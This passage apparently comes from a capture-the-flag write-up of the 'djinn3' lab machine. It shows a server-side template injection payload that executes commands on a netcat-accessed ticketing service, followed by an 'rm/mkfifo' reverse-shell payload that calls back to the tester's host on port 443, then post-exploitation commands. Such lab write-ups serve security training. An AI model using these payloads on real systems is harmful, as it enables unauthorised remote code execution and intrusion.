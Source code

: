 ```bash
$ nc 192.168.122.102 31337
username> guest
password> guest

Welcome to our own ticketing system. This application is still under
development so if you find any issue please report it to mail@mzfr.me

Enter "help" to get the list of available commands.

> open
Title: test4
Description: {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
> exit
```

Result: `uid=33(www-data) gid=33(www-data) groups=33(www-data)`

Alright, now that I have RCE PoC via SSTI, I will substitute a `rm mkfifo` reverse shell. Here is the payload:

Payload: `{{request.application.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.49.122 443 >/tmp/f').read()}}`

Setting up a netcat listener on port 443 and then calling it on the website, I get a shell:

```bash
www-data@djinn3:/opt/.web$ whowhoami
www-data
www-data@djinn3:/opt/.web$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@djinn3:/opt/.web$ hostname
djinn3
www-data@djinn3:/opt/.web$ hostname -I
192.168.122.102
```

Collect local.txt:
```bash
www-data@djinn3:~$ cat local.txt
2b43ae932c7d96460d114c63d8c3b911
```

![4](screenshots/4.png)

Check out the users here:

```bash
www-data@djinn3:/home$ ls -la
total 20
drwxr-xr-x  5 root  root  4096 Jun  4  2020 .
drwxr-xr-x 23 root  root  4096 Sep 30  2020 ..
drwxr-x---  3 jack  jack  4096 Sep 30  2020 jack
drwxr-x---  3 mzfr  mzfr  4096 Sep 30  2020 mzfr
drwxr-x---  5 saint saint 4096 Sep 30  2020 saint
```
